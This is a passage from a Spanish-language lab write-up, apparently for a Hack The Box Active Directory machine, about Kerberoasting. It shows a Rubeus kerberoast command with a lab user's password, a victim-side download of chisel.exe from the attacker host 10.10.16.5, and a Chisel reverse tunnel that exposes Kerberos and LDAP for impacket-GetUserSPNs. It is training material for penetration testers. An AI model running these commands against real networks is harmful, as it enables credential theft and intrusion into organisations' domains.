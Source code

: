 ```powershell
./Rubeus.exe kerberoast /creduser:htb.local\amanda /credpassword:Ashare1972
```

<figure><img src="../../../.gitbook/assets/3409_vmware_VpwHqTxQQZ.png" alt=""><figcaption></figcaption></figure>

### Performing a port forwarding to perform a Kerberoasting attack (Chisel && GetUserSPNs)

A continuación, veremos otra de las maneras efectivas de explotar este ataque mediante Port-Forwarding.

Dado que el puerto 88 (Kerberos) no se encuentra expuesto en el equipo víctima y con la herramienta de _**impacket-GetUserSPNs**_ al principio no pudimos efectuar el ataque, el objetivo será realizar el Port-Forwarding del puerto 88 (Kerberos) y 389 (LDAP) del Domain Controller para que se encuentren accesibles desde nuestro equipo local de atacante.

Para ello, pasaremos el binario del _**chisel.exe**_ al equipo víctima, configuraremos el _**chisel**_ en sevidor en la máquina Kali y cliente en el equipo Windows, haremos que el Kerberos y LDAP sean accesibles por los mismos puertos pero desde nuestro equipo de atacante.

{% code overflow="wrap" %}
```bash
# Desde el equipo atacante
python3 -m http.server 80

# Desde el equipo víctima
IWR -Uri http://10.10.16.5/chisel.exe -OutFile chisel.exe

# Desde el equipo atacante
./chisel server --reverse -p 1234

# Desde el equipo víctima
./chisel.exe client 10.10.16.5:1234 R:88:127.0.0.1:88 R:389:127.0.0.1:389
```
{% endcode %}
